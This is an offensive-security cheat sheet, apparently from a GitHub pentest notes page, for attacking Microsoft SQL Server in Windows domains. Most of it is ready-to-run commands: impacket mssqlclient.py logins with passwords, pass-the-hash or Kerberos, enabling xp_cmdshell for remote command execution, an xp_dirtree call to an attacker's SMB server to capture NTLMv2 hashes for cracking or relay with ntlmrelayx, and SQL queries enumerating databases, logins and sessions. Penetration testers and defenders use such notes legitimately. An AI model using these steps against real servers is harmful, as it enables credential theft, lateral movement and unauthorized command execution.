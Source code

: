# Microsoft SQL service (port 1433)

If the Domain controller or any other windows machine have accessible Microsoft SQL service through the standar port 1433, or any custom port accessible, you can use a domain user credentials (or local user credentials) to login. In some cases this can lead to RCE through "xp_cmdshell" function, ntlm authentication relay through "xp_dirtree" function or get the NTLM v2 hash from the user running the service, enumerate databases, arbitrary querys, and migrate to other computers if are connected through "links".

You can login into the service using mssqlclient.py from impacket suite:

`mssqlclient.py <domain>/<user>:'<password>'@<ip>`

Pass-the-hash: `mssqlclient.py <domain>/user:@<ip> -hashes '<optional LM hash>:<NT hash>'`

Kerberos auth: `sudo rdate -n <ip> ; <domain>/<user>:'<password>'@<machine>.<domain> -k`

<br>

### Try an RCE:

Whatever user you loged in, try to use "xp_cmdshell" command to execute a command inside that machine:

`xp_cmdshell "whoami"`

If this fails for any reason (probably) try to enable this function with:

`enable_xp_cmdshell`

`reconfigure`

`xp_cmdshell "whoami"`

NOTE: Remember that 'sa' user is more likely to be able to run xp_cmdshell in the machine

<br>

### NTLM relay / hash grabbing

You can also try to get ntlmv2 hash for the user which is running the server. Then you can crack offline that hash to get credentials, or (if you suspect that credentials could have admin rights against another domain machine) you can use "ntlmrelayx" tool to relay the credentials and get RCE (or whatever) to second machine.

From your attacking machine: `smbserver.py -smb2support share .` (also "responder" tool will work)

Inside mssqlclient.py session: `xp_dirtree \\<your_smbserver_ip>\whatever`

For NTLM relay look for "responder" and "ntlmrelayx" functionalitys.



### Database enumeration:

Get all database: `EXEC sp_databases;` or `SELECT name FROM sys.databases;`

Use specific database: `USE <database name>;`

Get tables from current database: `SELECT name FROM sys.tables;` or `SELECT * FROM information_schema.tables;`

Get content from specific table: `SELECT * FROM <table name>;`

Get columns from specific table: `SELECT name FROM sys.columns WHERE object_id = OBJECT_ID('<table name>');`

Enumerate users and roles: `SELECT name FROM sys.syslogins;`


Other information you can enumerate from the machine:
```
SELECT @@VERSION;               -- Sql server version
SELECT SERVERPROPERTY('MachineName');  -- Hostname
SELECT SERVERPROPERTY('Edition');      -- Edition (Express, Standard, etc.)
SELECT SERVERPROPERTY('InstanceName'); -- Instance name
SELECT SERVERPROPERTY('ProductLevel'); -- Patch level

SELECT name, type_desc FROM sys.server_principals;   -- Server users
SELECT name, type_desc FROM sys.database_principals; -- Database users

SELECT * FROM sys.dm_exec_sessions;       -- Active sessions and connections
SELECT * FROM sys.dm_exec_connections;

SELECT * FROM sys.dm_exec_requests;       -- SQL process
```

<br>

### Links

Working on this seccion....

<br>

Other interesting articles: https://one2bla.me/Breach-operations/attacking-mssql


